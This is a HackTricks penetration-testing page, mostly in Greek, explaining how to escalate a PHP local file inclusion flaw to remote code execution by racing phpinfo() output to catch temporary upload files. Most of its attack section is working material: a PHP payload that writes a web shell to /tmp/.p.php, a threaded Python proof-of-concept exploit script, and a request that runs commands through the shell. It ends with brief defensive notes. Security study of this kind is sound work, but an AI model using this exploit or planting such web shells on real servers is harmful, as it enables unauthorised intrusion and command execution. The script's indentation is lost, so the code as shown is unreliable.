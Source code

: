# LFI to RCE via PHPInfo

{{#include ../../banners/hacktricks-training.md}}

Για να εκμεταλλευτείτε αυτήν την τεχνική χρειάζεστε όλα τα παρακάτω:
- Μια προσβάσιμη σελίδα που εκτυπώνει έξοδο phpinfo().
- Ένα Local File Inclusion (LFI) primitive που ελέγχετε (π.χ., include/require σε είσοδο χρήστη).
- Ενεργοποιημένα PHP file uploads (file_uploads = On). Οποιοδήποτε PHP script δέχεται RFC1867 multipart uploads και δημιουργεί ένα προσωρινό αρχείο για κάθε uploaded part.
- Ο PHP worker πρέπει να μπορεί να γράψει στο configured upload_tmp_dir (ή στον προεπιλεγμένο system temp directory) και το LFI σας πρέπει να μπορεί να συμπεριλάβει αυτό το path.

Classic write-up and original PoC:
- Whitepaper: LFI with PHPInfo() Assistance (B. Moore, 2011)
- Original PoC script name: phpinfolfi.py (see whitepaper and mirrors)

Tutorial HTB: https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s

Σημειώσεις για το original PoC
- Η έξοδος του phpinfo() είναι HTML-encoded, οπότε το σύμβολο "=>" συχνά εμφανίζεται ως "=&gt;". Αν ξαναχρησιμοποιήσετε legacy scripts, βεβαιωθείτε ότι ψάχνουν και για τις δύο κωδικοποιήσεις όταν κάνουν parse την τιμή _FILES[tmp_name].
- Πρέπει να προσαρμόσετε το payload (τον PHP κώδικα σας), το REQ1 (το request προς το phpinfo() endpoint συμπεριλαμβανομένου του padding) και το LFIREQ (το request προς το LFI sink). Κάποιοι στόχοι δεν χρειάζονται null-byte (%00) terminator και μοντέρνες PHP εκδόσεις δεν το σέβονται. Προσαρμόστε αναλόγως το LFIREQ.

Example sed (only if you really use the old Python2 PoC) to match HTML-encoded arrow:
```
sed -i 's/\[tmp_name\] =>/\[tmp_name\] =&gt;/g' phpinfolfi.py
```
{{#file}}
LFI-With-PHPInfo-Assistance.pdf
{{#endfile}}

## Θεωρία

- Όταν το PHP λαμβάνει ένα multipart/form-data POST με ένα πεδίο αρχείου, γράφει το περιεχόμενο σε ένα προσωρινό αρχείο (upload_tmp_dir ή η προεπιλογή του OS) και εκθέτει τη διαδρομή σε $_FILES['<field>']['tmp_name']. Το αρχείο αφαιρείται αυτόματα στο τέλος του αιτήματος εκτός αν μετακινηθεί/μετονομαστεί.
- Το κόλπο είναι να μάθεις το προσωρινό όνομα και να το συμπεριλάβεις μέσω του LFI πριν το PHP το καθαρίσει. phpinfo() εκτυπώνει το $_FILES, συμπεριλαμβανομένου του tmp_name.
- Με το να φουσκώσεις τα headers/παραμέτρους του αιτήματος (padding) μπορείς να προκαλέσεις ώστε πρώιμα τμήματα της εξόδου της phpinfo() να σπρωχτούν στον client πριν ολοκληρωθεί το αίτημα, έτσι μπορείς να διαβάσεις το tmp_name ενώ το προσωρινό αρχείο εξακολουθεί να υπάρχει και έπειτα αμέσως να κάνεις LFI σε αυτή τη διαδρομή.

Στα Windows τα προσωρινά αρχεία βρίσκονται συνήθως κάτω από κάτι σαν C:\\Windows\\Temp\\php*.tmp. Σε Linux/Unix συνήθως είναι στο /tmp ή στον κατάλογο που έχει ρυθμιστεί στο upload_tmp_dir.

## Ροή επίθεσης (βήμα-βήμα)

1) Προετοίμασε ένα μικρό PHP payload που εγκαθιστά γρήγορα ένα shell ώστε να αποφύγεις να χάσεις την κούρσα (η εγγραφή ενός αρχείου είναι γενικά πιο γρήγορη από το να περιμένεις ένα reverse shell):
```
<?php file_put_contents('/tmp/.p.php', '<?php system($_GET["x"]); ?>');
```
2) Στείλτε ένα μεγάλο multipart POST απευθείας στη σελίδα phpinfo() ώστε να δημιουργήσει ένα προσωρινό αρχείο που περιέχει το payload σας. Φουσκώστε διάφορα headers/cookies/params με ~5–10KB padding για να ενθαρρύνετε την πρώιμη έξοδο. Βεβαιωθείτε ότι το όνομα του form field ταιριάζει με αυτό που θα κάνετε parse σε $_FILES.

3) Ενώ η απάντηση του phpinfo() εξακολουθεί να stream-άρεται, αναλύστε το μερικό σώμα για να εξαγάγετε το $_FILES['<field>']['tmp_name'] (HTML-encoded). Μόλις έχετε το πλήρες απόλυτο path (π.χ., /tmp/php3Fz9aB), ενεργοποιήστε το LFI σας για να include() αυτό το path. Αν το include() εκτελέσει το προσωρινό αρχείο πριν αυτό διαγραφεί, το payload σας τρέχει και ρίχνει /tmp/.p.php.

4) Χρησιμοποιήστε το dropped αρχείο: GET /vuln.php?include=/tmp/.p.php&x=id (ή όπου αλλού το LFI σας επιτρέπει να το include) για αξιόπιστη εκτέλεση εντολών.

> Tips
> - Χρησιμοποιήστε πολλούς concurrent workers για να αυξήσετε τις πιθανότητές σας να κερδίσετε τον race.
> - Θέσεις του padding που συνήθως βοηθούν: URL parameter, Cookie, User-Agent, Accept-Language, Pragma. Προσαρμόστε ανά στόχο.
> - Αν το ευάλωτο sink προσθέτει ένα extension (π.χ., .php), δεν χρειάζεστε null byte· το include() θα εκτελέσει PHP ανεξάρτητα από το extension του προσωρινού αρχείου.

## Minimal Python 3 PoC (socket-based)

Το snippet παρακάτω επικεντρώνεται στα κρίσιμα μέρη και είναι πιο εύκολο να προσαρμοστεί από το legacy Python2 script. Προσαρμόστε τα HOST, PHPSCRIPT (phpinfo endpoint), LFIPATH (path to the LFI sink), και PAYLOAD.
```python
#!/usr/bin/env python3
import re, html, socket, threading

HOST = 'target.local'
PORT = 80
PHPSCRIPT = '/phpinfo.php'
LFIPATH = '/vuln.php?file=%s'  # sprintf-style where %s will be the tmp path
THREADS = 10

PAYLOAD = (
"<?php file_put_contents('/tmp/.p.php', '<?php system($_GET[\\"x\\"]); ?>'); ?>\r\n"
)
BOUND = '---------------------------7dbff1ded0714'
PADDING = 'A' * 6000
REQ1_DATA = (f"{BOUND}\r\n"
f"Content-Disposition: form-data; name=\"f\"; filename=\"a.txt\"\r\n"
f"Content-Type: text/plain\r\n\r\n{PAYLOAD}{BOUND}--\r\n")

REQ1 = (f"POST {PHPSCRIPT}?a={PADDING} HTTP/1.1\r\n"
f"Host: {HOST}\r\nCookie: sid={PADDING}; o={PADDING}\r\n"
f"User-Agent: {PADDING}\r\nAccept-Language: {PADDING}\r\nPragma: {PADDING}\r\n"
f"Content-Type: multipart/form-data; boundary={BOUND}\r\n"
f"Content-Length: {len(REQ1_DATA)}\r\n\r\n{REQ1_DATA}")

LFI = ("GET " + LFIPATH + " HTTP/1.1\r\nHost: %s\r\nConnection: close\r\n\r\n")

pat = re.compile(r"\\[tmp_name\\]\\s*=&gt;\\s*([^\\s<]+)")


def race_once():
s1 = socket.socket()
s2 = socket.socket()
s1.connect((HOST, PORT))
s2.connect((HOST, PORT))
s1.sendall(REQ1.encode())
buf = b''
tmp = None
while True:
chunk = s1.recv(4096)
if not chunk:
break
buf += chunk
m = pat.search(html.unescape(buf.decode(errors='ignore')))
if m:
tmp = m.group(1)
break
ok = False
if tmp:
req = (LFI % tmp).encode() % HOST.encode()
s2.sendall(req)
r = s2.recv(4096)
ok = b'.p.php' in r or b'HTTP/1.1 200' in r
s1.close(); s2.close()
return ok

if __name__ == '__main__':
hit = False
def worker():
nonlocal_hit = False
while not hit and not nonlocal_hit:
nonlocal_hit = race_once()
if nonlocal_hit:
print('[+] Won the race, payload dropped as /tmp/.p.php')
exit(0)
ts = [threading.Thread(target=worker) for _ in range(THREADS)]
[t.start() for t in ts]
[t.join() for t in ts]
```
## Αντιμετώπιση προβλημάτων
- Δεν βλέπετε ποτέ tmp_name: Βεβαιωθείτε ότι κάνετε πραγματικά POST multipart/form-data προς phpinfo(). phpinfo() εμφανίζει $_FILES μόνο όταν υπήρχε upload field.
- Η έξοδος δεν εκκενώνεται νωρίς: Αυξήστε το padding, προσθέστε περισσότερους μεγάλους headers, ή στείλτε πολλαπλά concurrent requests. Ορισμένα SAPI/buffers δεν θα κάνουν flush μέχρι μεγαλύτερα όρια· προσαρμόστε ανάλογα.
- LFI path blocked by open_basedir or chroot: Πρέπει να δείξετε το LFI σε μια επιτρεπόμενη διαδρομή ή να αλλάξετε σε διαφορετικό LFI2RCE vector.
- Temp directory not /tmp: phpinfo() εκτυπώνει την πλήρη απόλυτη tmp_name διαδρομή· χρησιμοποιήστε ακριβώς αυτή τη διαδρομή στο LFI.

## Σημειώσεις άμυνας
- Μην εκθέτετε ποτέ το phpinfo() σε παραγωγικό περιβάλλον. Εάν χρειάζεται, περιορίστε με IP/auth και αφαιρέστε μετά τη χρήση.
- Κρατήστε το file_uploads απενεργοποιημένο αν δεν απαιτείται. Διαφορετικά, περιορίστε το upload_tmp_dir σε μια διαδρομή που δεν είναι προσβάσιμη από include() στην εφαρμογή και επιβάλετε αυστηρό validation σε οποιεσδήποτε include/require διαδρομές.
- Θεωρήστε κάθε LFI κρίσιμο· ακόμη και χωρίς phpinfo(), υπάρχουν άλλες διαδρομές LFI→RCE.

## Σχετικές τεχνικές HackTricks

{{#ref}}
lfi2rce-via-temp-file-uploads.md
{{#endref}}

{{#ref}}
via-php_session_upload_progress.md
{{#endref}}

{{#ref}}
lfi2rce-via-nginx-temp-files.md
{{#endref}}

{{#ref}}
lfi2rce-via-eternal-waiting.md
{{#endref}}



## Αναφορές
- LFI With PHPInfo() Assistance whitepaper (2011) – Packet Storm mirror: https://packetstormsecurity.com/files/download/104825/LFI_With_PHPInfo_Assitance.pdf
- PHP Manual – POST method uploads: https://www.php.net/manual/en/features.file-upload.post-method.php
{{#include ../../banners/hacktricks-training.md}}
